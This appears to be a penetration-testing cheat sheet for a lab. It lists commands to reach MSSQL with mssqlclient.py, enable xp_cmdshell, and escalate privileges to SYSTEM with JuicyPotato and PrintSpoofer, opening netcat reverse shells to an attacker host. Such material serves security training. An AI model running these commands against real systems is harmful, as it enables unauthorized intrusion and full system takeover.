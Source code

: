 #### Connecting with MSSQLClient.py
```Shell
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```
Connect using mssqlclient.py

#### Enabling xp_cmdshell
```Shell
enable_xp_cmdshell
```
Enable xp_cmdshell with mssqlclient.py

#### Confirming Access
```Shell
xp_cmdshell whoami
```
Run OS commands with xp_cmdshell

#### Checking Account Privileges
```Shell
xp_cmdshell whoami /priv
```
Checks what privileges the service account has been granted

#### Escalating Privileges Using JuicyPotato
```Shell
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
Escalate privileges with JuicyPotato

#### Catching Reverse Shell
```Shell
nc -lnvp 8443
```
Catches the Reverse Shell as SYSTEM

#### Escalating Privileges Using PrintSpoofer
```Shell
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
Escalating privileges with PrintSpoofer

#### Catching Reverse Shell
```Shell
nc -lnvp 8443
```
Catches the Reverse Shell as SYSTEM


## SeDebugPrivilege

#### Check for SeDubPrivilege
```cmd.exe
whoami /priv
```
Enumerates the users privileges to determine if they have SeDebugPrivileges
